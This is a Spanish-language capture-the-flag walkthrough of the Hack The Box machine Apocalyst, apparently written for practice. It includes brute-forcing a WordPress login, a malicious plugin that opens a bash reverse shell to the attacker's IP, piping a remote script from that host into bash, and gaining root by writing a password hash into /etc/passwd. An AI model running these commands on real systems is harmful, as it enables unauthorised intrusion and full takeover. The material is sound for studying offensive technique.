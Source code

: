 # 10.10.10.46 - Apocalist

------------------------------
# Reconocimiento inicial

Primero lanzamos nmap:

```bash
$: sudo nmap -sCV 10.10.10.46 -p- --open -sS --min-rate 5000 -Pn -n -vvv
...
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-title: Apocalypse Preparation Blog
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Luego un script mío personalizado para obtener mas información y whatweb

```bash
$: portscan.py -t 10.10.10.46 -p 22,80

[+] El puerto 22 esta abierto:
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2


[+] El puerto 80 esta abierto:
HTTP/1.0 200 OK
Date: Tue, 09 Jan 2024 09:15:18 GMT
Server: Apache/2.4.18 (Ubuntu)
Link: <http://apocalyst.htb/?rest_route=/>; rel="https://api.w.org/"
Connection: close
Content-Type: text/html; charset=UTF-8

$: whatweb http://apocalyst.htb/
http://apocalyst.htb/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2
.4.18 (Ubuntu)], IP[10.10.10.46], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,
], Script[text/javascript], Title[Apocalypse Preparation Blog], UncommonHeaders[link], WordPress[4.8]
```

Sin lugar a duda tenemos un worpress 4.8. En el `/etc/hosts` escribimos la linea `10.10.10.46	apocalyst.htb`
Encontramos un articulo escrito por un tal `falaraki`, adenás en el código fuente estos links
```bash
$: curl -s http://apocalyst.htb/ | grep -oP 'a href="(.*?)"' | grep "apocalyst" | sort -u
a href="#content"
a href="http://apocalyst.htb/"
a href="http://apocalyst.htb/?cat=1"
a href="http://apocalyst.htb/?feed=comments-rss2"
a href="http://apocalyst.htb/?feed=rss2"
a href="http://apocalyst.htb/?p=5"
a href="http://apocalyst.htb/?p=7"
a href="http://apocalyst.htb/?p=9"
a href="http://apocalyst.htb/wp-login.php"
```
- La página principal, seguro `ìndex.php` acepta paráemtros como `p`, `cat`, `feed`... los cuales cargan determinados recursos, lo que me sugiere una posible LFI o una SQLi, pero tras un rato haciendo pruebas no doy con nada.
- Tenemos una opcion para subir comentarios `http://apocalyst.htb/wp-comments-post.php`, lo que tambien sugiere un XXS, pero tampoco.

Probamos un escaneo con wpscan
```bash
$: wpscan --url http://apocalyst.htb/ -e vp,u
...
[+] URL: http://apocalyst.htb/ [10.10.10.46]
[+] Started: Tue Jan  9 16:08:54 2024
...
[+] XML-RPC seems to be enabled: http://apocalyst.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
...
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=========================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] falaraki
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```
Nos ha encontrado lo del usaurio `falaraki` y que el `xmlrpc` está activado, si no podemos ir por otro camino, internaremos explotar esto.

------------------------------------------------------------

# Explotación de la web

En `/wp-login`, si pruebo un usuario `test` da un mensaje de error, pero con un usuario del sitio (el `falaraki` de antes) da otro mensaje distinto, lo
 que deja la puerta abierta a fuerza bruta con hydra, pero con el rockyou no obtendo resultados.

```bash
$: hydra -l falaraki -P /usr/share/wordlists/rockyou.txt apocalyst.htb http-post-form \
 "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fapocalyst.htb%2Fwp-admin%2F&testcookie=1:F=is incorrect"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-09 11:33:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 486 login tries (l:1/p:486), ~31 tries per task
[DATA] attacking http-post-form://apocalyst.htb:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirec
```
Ahora probamos con fuzzing de rutas. Con el parámetro `-L` seguimos la redirección.

```bash
$: wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://apocalyst.htb/FUZZ
000000018:   301        9 L      28 W       313 Ch      "blog"                                                
000000085:   301        9 L      28 W       313 Ch      "page"                                                
000000071:   301        9 L      28 W       313 Ch      "info"                                                
000000063:   301        9 L      28 W       313 Ch      "main"                                                
000000139:   301        9 L      28 W       313 Ch      "site"   

$: wfuzz --hc=404 --hw=17 -L -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://apocalyst.htb/FUZZ
000000227:   200        0 L      0 W        0 Ch        "wp-content"                                          
000000772:   200        200 L    2015 W     40841 Ch    "wp-includes" 
```
Como no encontramos gran cosa y la web tiene palabras propias en lugar del clásico "Lorem Ipsum", probamos a hacer un diccionario con `cewl`

```bash
$: cewl http://apocalyst.htb/ -w dict.txt
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
                                                                                                                       
$: wc -l dict.txt
533 dict2.txt

$: wfuzz --hc=404 -w dict.txt http://apocalyst.htb/FUZZ
000000001:   301        9 L      28 W       312 Ch      "the"
000000036:   301        9 L      28 W       314 Ch      "Mosis"
000000031:   301        9 L      28 W       312 Ch      "End"
000000007:   301        9 L      28 W       313 Ch      "Blog"
000000035:   301        9 L      28 W       318 Ch      "Assumptio"

$: wfuzz --hc=404 -L -w dict.txt http://apocalyst.htb/FUZZ
000000001:   200        13 L     17 W       157 Ch      "the"
000000007:   200        13 L     17 W       157 Ch      "Blog"
000000028:   200        13 L     17 W       157 Ch      "has"
000000031:   200        13 L     17 W       157 Ch      "End"
000000029:   200        13 L     17 W       157 Ch      "been"

$: wfuzz --hc=404 --hw=17 -L -w dict.txt http://apocalyst.htb/FUZZ
000000465:   200        14 L     20 W       175 Ch      "Rightiousness"
```

Una imagen descargada de `/Rightiousness` ocupa mas que otrea por ejemplo de `/End`
```bash
$: ls -la
.rw-r--r-- jessica jessica 210 KB Tue Jan  9 11:22:24 2024  Rightiousness.jpg
.rw-r--r-- jessica jessica 203 KB Tue Jan  9 11:22:39 2024  End.jpg

$: steghide info Rightiousness.jpg
"Rightiousness.jpg":
  format: jpeg
  capacity: 13.0 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
  embedded file "list.txt":

$: steghide extract -sf Rightiousness.jpg
Enter passphrase: 
wrote extracted data to "list.txt".

$: hydra -l falaraki -P list.txt apocalyst.htb http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=
Log+In&redirect_to=http%3A%2F%2Fapocalyst.htb%2Fwp-admin%2F&testcookie=1:F=is incorrect"
...
[80][http-post-form] host: apocalyst.htb   login: falaraki   password: Transclisiation
```
Al ser un worpdress, podriamos haberlo hecho tambien con `wpscan --url http://apocalyst.htb -U falaraki -P ./list.txt`

Ya hemos llegado al panel de administración, hay varias maneras de saltar a la maquina victima, pero utilizaré una que usé en el EJPT
1. Creamos un plugin malicioso `revsell.php`
```bash
<?php
/*
Plugin Name: Mi Plugin
Description: Un plugin de muestra para WordPress.
Version: 1.0
Author: Tu Nombre
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'"); ?>
```
2. Lo zipeamos `zip plugin.zip revsel.php`
3. Lo subimos, le damos a activar y recibimos la shell
```bash
$: sudo nc -nlvp 443
[sudo] password for jessica:
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.46] 49388
bash: cannot set terminal process group (1394): Inappropriate ioctl for device
bash: no job control in this shell
www-data@apocalyst:/var/www/html/apocalyst.htb/wp-admin$
```

----------------------------------------

# Escalada de privilegios


Subo mi herramienta de enumeración linux y encuentro que tenemos tanto la contraseña de la base de datos de wordpress (posiblemente la contraseña
de falaraki encriptada) y que el `/etc/passwd` tiene permisos de escritura, lo que nos regala la escalda de privilegios
```bash
www-data@apocalyst:/var/www/html/apocalyst.htb$ curl http://10.10.14.12/lin_info.sh | bash
...
  >  Archvos de configuracion con permiso de escritura
/etc/passwd
  >  Archivos de configuracion
[*] NGINX
[*] APACHE
[*] WORPRESS # wp-config.php
define('DB_NAME', 'wp_myblog');
define('DB_USER', 'root');
define('DB_PASSWORD', 'Th3SoopaD00paPa5S!');
```
Creamos una contraseña con `openssl` y sustuituimos la contraseña `x` de root en el `/etc/passwd` (`root:x:0:0:root:/root:/usr/bin/zsh`) por
el hash que nos da openssl `8IiUy38KD.87M`, 
```bash
www-data@apocalyst:/$ openssl passwd
Password: test
Verifying - Password: 
8IiUy38KD.87M

www-data@apocalyst:/$ vim /etc/passwd
```
Y cambiamos a root con la contraseña `test` 
